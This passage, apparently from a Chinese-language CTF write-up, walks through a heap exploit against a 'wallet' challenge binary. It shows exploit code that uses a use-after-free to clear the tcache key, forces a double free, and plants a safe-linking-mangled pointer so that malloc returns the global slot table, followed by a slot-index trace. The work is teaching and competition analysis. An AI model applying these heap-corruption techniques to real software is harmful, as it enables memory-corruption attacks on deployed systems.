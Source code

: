\documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{deposit(}\DecValTok{3}\NormalTok{, p64(}\DecValTok{0}\NormalTok{)}\OperatorTok{*}\DecValTok{4}\NormalTok{)              }\CommentTok{\# UAF 寫：把 tcache key 清成 0（同時 next 也歸零）}
\NormalTok{transfer(}\DecValTok{3}\NormalTok{, }\DecValTok{4}\NormalTok{)                    }\CommentTok{\# 對同一塊再 free → double free（靜默通過）→ counts=2}
\NormalTok{deposit(}\DecValTok{4}\NormalTok{, p64(safe }\OperatorTok{\^{}}\NormalTok{ SLOTS) }\OperatorTok{+}\NormalTok{ p64(}\DecValTok{0}\NormalTok{)}\OperatorTok{*}\DecValTok{3}\NormalTok{)}
                                  \CommentTok{\# ✶ 寫入 e{-}\textgreater{}next = PROTECT\_PTR(e, \&slots[0])}
                                  \CommentTok{\#   實際存放值 = (user 位址\textgreater{}\textgreater{}12) \^{} 0x4040c0 = safe \^{} SLOTS}
\NormalTok{open\_wallet(}\StringTok{b\textquotesingle{}P3\textquotesingle{}}\NormalTok{, }\BaseNTok{0x20}\NormalTok{)          }\CommentTok{\# 第 1 次 malloc(0x20)：拿到 e，並把 entries ← \&slots[0]}
\NormalTok{open\_wallet(}\StringTok{b\textquotesingle{}P4\textquotesingle{}}\NormalTok{, }\BaseNTok{0x20}\NormalTok{)          }\CommentTok{\# 第 2 次 malloc(0x20)：✶✶ 回傳 0x4040c0（slot 表！）}
\end{Highlighting}
\end{Shaded}

\texttt{P4} 的 wallet 結構在 heap，但它的
\texttt{ledger\ \allowbreak{}=\ \allowbreak{}0x4040c0}、\texttt{size\ \allowbreak{}=\ \allowbreak{}0x20}。 \texttt{Open}
裡的 \texttt{memset\_\allowbreak{}chk(0x4040c0,\allowbreak{}\ \allowbreak{}0,\allowbreak{}\ \allowbreak{}0x20)} 只清掉
\texttt{slots{[}0..\allowbreak{}3{]}}， 而 P4 被存進掃描階段就決定好的
slot（\textgreater= 4，本例是 slot 6），所以不受影響。

\subparagraph{\texorpdfstring{\texttt{POISON\_\allowbreak{}SLOT\ \allowbreak{}=\ \allowbreak{}6}
是怎麼算出來的？}{POISON\_SLOT = 6 是怎麼算出來的？}}\label{poison_slot-6-ux662fux600eux9ebcux7b97ux51faux4f86ux7684}

\texttt{Open\ \allowbreak{}Wallet} 的 slot 掃描\textbf{只看
\texttt{slots{[}i{]}\ \allowbreak{}==\ \allowbreak{}NULL}}（§4.3 的 \texttt{4015e0}）， 而且
\textbf{\texttt{slots{[}i{]}} 只有 \texttt{Close} 才會被設成
NULL}（\texttt{Transfer} 只把 \texttt{active} 設 0、 \texttt{ledger} 設
NULL，\textbf{slot 格子本身沒有清掉}）。把每一步排出來：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
Open S           → slot 0        （slots[0] 非 NULL）
Open D           → slot 1        （slots[1] 非 NULL）
Open W0..W6      → slots 2..8
Close 2..8       → slots 2..8 全部變 NULL          ← 只有 Close 會清格子
Open P0          → slot 2        （第一個 NULL）
Open P1          → slot 3
Open P2          → slot 4
transfer(2, 3)   → slot2 仍非 NULL！（P0 只是 active=0、ledger=NULL）
Open P3          → slot 5        ← 掃到 5 才空
Open P4          → slot 6        ← ✶ 所以 POISON_SLOT = 6
\end{Verbatim}
\end{document}
